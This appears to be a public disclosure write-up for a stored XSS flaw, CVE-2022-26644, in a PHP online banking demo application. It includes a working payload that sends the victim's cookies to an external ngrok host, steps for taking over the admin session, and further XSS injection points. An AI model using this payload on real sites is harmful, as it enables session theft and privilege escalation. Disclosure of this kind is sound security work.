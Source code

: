 # Tittle: Online Banking System Stored XSS

## Author: (Erik451)

### CVE: [CVE-2022-26644](https://cve.reconshell.com/cve/CVE-2022-26644)
#### **Vendor Homepage**: [https://www.sourcecodester.com/](https://www.sourcecodester.com/)
#### **Software Link**: [https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html](https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html)
#### **Version**: OBS 1.0



**Description:** A XSS issue in OBS v1.0 allows remote attackers to inject JavaScript in the description parameters. XSS to Privilege Escalation
- Client can craft a malicious payload, when the administrator goes to "account managment menu" the payload will be executed and the administrator cookies will be sent to the attacker server.

---

### Steps to reproduce:
- 1- Go to [http://localhost/banking/client/?page=user](http://localhost/banking/client/?page=user)
- 2- Edite your profile name and paste the payload
- 3- Using a ngrok http server to get the request with the administrator cookie

#### **Client Session**
Payload used to steal the session Cookie: 
```js
<script>var i=new Image;i.src=`https://2c32-81-9-194-204.ngrok.io/?c=${document.cookie}`;</script>
```

![ngrokclient](https://user-images.githubusercontent.com/47476901/160634443-a0b5afaa-a2f0-404f-9bb2-a3437e534c6d.png)


#### **Admin Session**

The administrator goes to the manage accounts menu and will execute the payload in background.
Now we have the admin cookie on the request

![admincookie](https://user-images.githubusercontent.com/47476901/160656693-e8ce72d9-66f1-4635-85df-f1b8042a8e1f.png)

#### **Client Session**
Edit our cookie with the new admin cookie, reload admin page and now we are administrators.

![loginasadmin](https://user-images.githubusercontent.com/47476901/160634399-08084a58-6c77-47b8-97c7-27c9fb274d8c.png)


---

#### Other XSS

Payload used: `<img src="x" onerror=prompt(1)>`

**Announcements Tittle**

-  1- Go to [http://web.com/admin/?page=announcements/manage_announcement](http://web.com/admin/?page=aannouncements/manage_announcement)
-  2- Create or edite an announcement and paste the payload
		
![XSSannouncement](https://user-images.githubusercontent.com/47476901/160634336-a3d0ff72-878b-4102-9eff-5759581f3695.png)
    
![XSSannouncement2](https://user-images.githubusercontent.com/47476901/160634352-303bc621-c09d-4993-86e0-316b183809ab.png)

**Accounts Name**

-  1- Go to [http://web.com/admin/?page=accounts/manage_account](http://web.com/admin/?page=accounts/manage_account)
-  2- Create or edite an accounts and paste the payload, client account will execute the payload on his session.

**System Info Name**	

 -  1- Go to [http://web.com/admin/?page=system_info](http://web.com/admin/?page=system_info)
 -  2- Edite the app/system info and paste the payload
 -  3-  This is the configuration of the app, all clients will see the tittle on the app, the XSS will be executed.
 
![XSSsysinfo](https://user-images.githubusercontent.com/47476901/160634484-659cfb45-6e0e-446a-be77-76296ee56383.png)

